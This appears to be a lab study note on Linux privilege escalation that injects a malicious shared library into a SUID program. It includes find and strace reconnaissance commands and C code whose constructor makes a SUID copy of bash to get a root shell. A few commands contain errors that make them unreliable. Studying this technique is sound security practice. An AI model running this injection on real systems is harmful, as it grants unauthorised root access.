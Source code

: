 This technique is more advanced. 

The idea is to force a program to charge a malicious `.so` library during the execution in order to execute our code.

The program must:
1. have the `SUID` set 
2. charge libraries dinamically

# Search for vulnerable program 

<mark style="background: #BBFABBA6;">First of all we need to execute:</mark>
```bash
find / -type -f -perm -04000 -ls 2>/dev/null
```
- ![[Pasted image 20250117114218.png]]

In this case we will look at this `suid-so`


If we analyze it we can see:
```bash
ls-la /usr/local/bin/suid-so
```
- ![[Pasted image 20250117114348.png]]


Now we must see what it does:
```bash
/usr/local/bin/suid-so
```
- ![[Pasted image 20250117114433.png]]
- It seems to do nothing but we can use it

# Using strace to understand what it does

We can use `strace` to look at the instruction it executes:
```bash
strace /usr/local/bin/suid-so 2>&1
```

As we can see it accesses to a lot of files:
- ![[Pasted image 20250117114703.png]]


To have a better view we can run:
```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```
- `-i` makes key insensitive
- `-E` allows regular expressions
- `"open|access|no such file"` searchses for at list of that
- ![[Pasted image 20250117114948.png]]


In our case it is very interesting:
- ![[Pasted image 20250117115024.png]]
- so we try to overwrite it because we can access `/home/user`


# Write injection

We can try to write this code to inject:
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


The part:
- `cp /bin/bash /tmp/bash` copies the bash binary in `/tmp` that is accessible by normal users
- `chmod +s /tmp/bash` sets the `SUID` bit so when it is executed it gets the owner privileges (root here)
- `/tmp/bash -p` runs the bash with the root privilege here


So we create a `.config` folder:
```bash
mkdir /home/user/.config
```


We compile it:
```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.so
```

At this point we run again the initial program:
```bahs
/usr/local/bin/suid-so
```
- ![[Pasted image 20250117120005.png]]

<mark style="background: #BBFABBA6;">And we gain root access!</mark>



- [ ] **List files with the SUID bit set**
- `find / -perm -u=s -type f 2>/dev/null`

- [ ] **Run these files using `strace`**

- [ ] **Look if we are able to inject `.so` files in the running**

- [ ] **Write and compile a `.so` file**
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

- [ ] **Inject the shared library**

- [ ] **Run the bash file created by the injection**

